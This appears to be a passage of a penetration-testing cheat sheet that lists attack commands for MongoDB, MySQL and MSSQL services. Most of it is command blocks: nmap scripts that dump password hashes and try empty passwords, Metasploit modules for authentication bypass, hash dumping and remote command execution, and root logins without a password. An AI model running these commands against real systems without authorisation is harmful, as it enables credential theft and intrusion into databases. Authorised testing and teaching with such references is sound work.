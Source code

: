 ### <a name='mongodb'></a>mongodb
* default port: 27017
* [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/27017-27018-mongodb)

```sh
nmap -sV --script "mongo* and default" -p 27017 $ztarg_computer_ip
```

### <a name='mysql'></a>mysql
* default port: 3306
* [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql) / [ssrf](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection/mysql-ssrf)

```sh
# scan / nmap
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 $ztarg_computer_ip

# scan / metasploit
use auxiliary/scanner/mysql/mysql_version
use auxiliary/scanner/mysql/mysql_authbypass_hashdump
use auxiliary/scanner/mysql/mysql_hashdump #Creds
use auxiliary/admin/mysql/mysql_enum #Creds
use auxiliary/scanner/mysql/mysql_schemadump #Creds 
use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds

# login / local
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
mysql -u root -h 127.0.0.1 -e 'show databases;'

# login / remote
mysql -h $ztarg_computer_ip -u root
mysql -h $ztarg_computer_ip -u root@localhost
```

### <a name='mssql'></a>mssql
* default port: 1433
* [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) / [mdf](https://docs.fileformat.com/database/mdf/) / [abuse-ad-mssql](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql)

```sh
# scan / nmap
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=$ztarg_user_name,mssql.password=$ztarg_user_pass,mssql-instance-name=XXX -Pn -sV -p 1433 $ztarg_computer_ip

# scan / metasploit / trusted links 
# set username, password, windows auth (if using AD), IP...
use exploit/windows/mssql/mssql_linkcrawler
```
